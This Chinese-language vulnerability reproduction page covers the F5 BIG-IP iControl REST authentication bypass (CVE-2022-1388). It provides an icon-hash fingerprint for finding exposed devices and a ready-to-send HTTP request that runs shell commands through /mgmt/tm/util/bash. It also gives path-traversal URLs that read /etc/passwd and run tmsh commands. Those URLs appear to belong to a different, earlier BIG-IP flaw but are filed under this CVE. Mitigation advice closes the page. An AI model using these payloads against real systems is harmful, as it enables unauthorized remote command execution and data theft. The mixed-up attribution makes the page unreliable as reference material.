


# F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

```
11.6.1-16.1.2
```

## 网络测绘

```
icon_hash="-335242539"
```

## 漏洞复现

登录页面



发送请求包(Host设为localhost)

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```



文件读取：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
RCE 
```

RCE：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

检测脚本：https://github.com/jheeree/CVE-2022-1388-checker/blob/main/CVE-2022-1388.sh

使用方法：

```
./CVE-2022-1388.sh hosts.txt
```

## 漏洞修复

建议升级至最新版本或可参考官方修复建议 Recommended Actions：https://support.f5.com/csp/article/K23605346

在受影响的版本内可执行以下步骤以缓解攻击：

- 通过自身 IP 地址阻止 iControl REST 访问。
- 通过管理界面阻止 iControl REST 访问。
- 修改 BIG-IP httpd 配置。